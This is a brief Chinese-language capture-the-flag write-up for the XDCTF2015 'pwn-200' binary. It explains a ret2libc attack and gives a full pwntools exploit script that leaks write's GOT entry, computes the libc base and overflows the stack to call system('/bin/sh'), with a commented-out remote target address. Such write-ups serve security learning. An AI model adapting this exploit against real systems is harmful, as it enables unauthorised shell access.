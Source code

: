 # pwn-200

1. 本地使用libc-2.31版本，payload1用write函数输出经过链接器ld赋值的write的got.plt值，即write在进程中的真实地址  

2. 用它减去libc中write的偏移量（`libc.sym['write']`)，得到libc的基址，  

此时让进程从头执行，  

3. 再用基址加上libc中system函数、"/bin/sh"字符串的偏移量，得到它们在进程中的真实地址，  

4. payload2再把system函数地址覆盖到EIP上。  

EXP：
```python
import pwn

pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./pwn-200')
#p = pwn.remote('220.249.52.133', 50039)

e = pwn.ELF('./pwn-200')

libc = pwn.ELF('/lib32/libc-2.31.so')

main_addr = pwn.p32(0x080484be)         # main函数入口地址，固定的
write_plt = pwn.p32(e.plt['write'])     # write函数的plt地址，将读取got.plt地址的值
write_got = pwn.p32(e.got['write'])     # write函数的got.plt地址（此时尚未被修改，指向plt地址的下一条指令地址）



payload1 = b'A' * 108 + b'B' * 4 + write_plt + main_addr + pwn.p32(1) + write_got + pwn.p32(4)
#                           write函数暂时地址 返回地址 write参数：stdout  write的got.plt值  4个字节长度

p.sendlineafter(b'Welcome to XDCTF2015~!\n', payload1)  

write_addr = p.recv(4)      # 此时write_got已被修改成write函数的真实地址
write_addr = pwn.u32(write_addr)

# 计算libc基址，system()和字符串"/bin/sh"的真实地址
libc_base = write_addr - libc.sym['write']
system_addr = pwn.p32(libc_base + libc.sym['system'])
sh_addr = pwn.p32(libc_base + next(libc.search('/bin/sh')))

payload2 = b'A' * 108 + b'B' * 4 + system_addr + b'C' * 4 + sh_addr
p.sendlineafter(b'Welcome to XDCTF2015~!\n', payload2)

p.interactive()
```

不知道为什么本地可以，远程不行。  